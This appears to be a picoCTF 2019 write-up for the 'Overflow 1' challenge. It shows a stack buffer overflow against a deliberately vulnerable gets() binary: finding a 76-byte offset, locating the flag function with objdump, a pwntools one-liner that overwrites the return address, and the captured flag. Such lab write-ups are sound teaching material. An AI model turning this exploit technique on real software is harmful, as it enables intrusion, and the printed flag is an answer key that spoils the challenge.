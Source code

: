 # Overflow 1
#### You beat the first overflow challenge. Now overflow the [buffer](https://2019shell1.picoctf.com/static/de69995dcb5ba8f74b9762a12ca3f4e4/vuln) and change the return address to the flag function in this program? You can find it in /problems/overflow-1_6_0a7153ff536ac8779749bc2dfa4735de on the shell server. [Source](https://2019shell1.picoctf.com/static/de69995dcb5ba8f74b9762a12ca3f4e4/vuln.c).

This binary is vulnerable to a buffer overflow attack, shown by both the unsafe gets() function and the name of the challenge. 
The first step to solving this challenge is to find out how much padding is needed to overflow the return address, through trial and error
we can find that the return address changes after inputting 76 bytes.
```
Starting program: /problems/overflow-1_6_0a7153ff536ac8779749bc2dfa4735de/vuln 
Give me a string and lets see what happens: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABCDEGHIJKLMNOP
Woah, were jumping to 0x4b4a4948 !

Program received signal SIGSEGV, Segmentation fault.
0x4b4a4948 in ?? ()
```
Then using objdump or gdb we can find the address of the function flag.
```
Supermac30@pico-2019-shell1:/problems/overflow-1_6_0a7153ff536ac8779749bc2dfa4735de$ objdump -D vuln | grep flag
080485e6 <flag>:
 8048618:       75 1c                   jne    8048636 <flag+0x50>
```
Finally, we can inject the buffer and address using inline python and the pwn library.
```
Supermac30@pico-2019-shell1:/problems/overflow-1_6_0a7153ff536ac8779749bc2dfa4735de$ python -c 'from pwn import *; print "A"*76 + p32(0x080485e6)' | ./vuln
Give me a string and lets see what happens: 
Woah, were jumping to 0x80485e6 !
picoCTF{n0w_w3r3_ChaNg1ng_r3tURn5b80c9cbf}Segmentation fault (core dumped)
```

Flag: picoCTF{n0w_w3r3_ChaNg1ng_r3tURn5b80c9cbf}
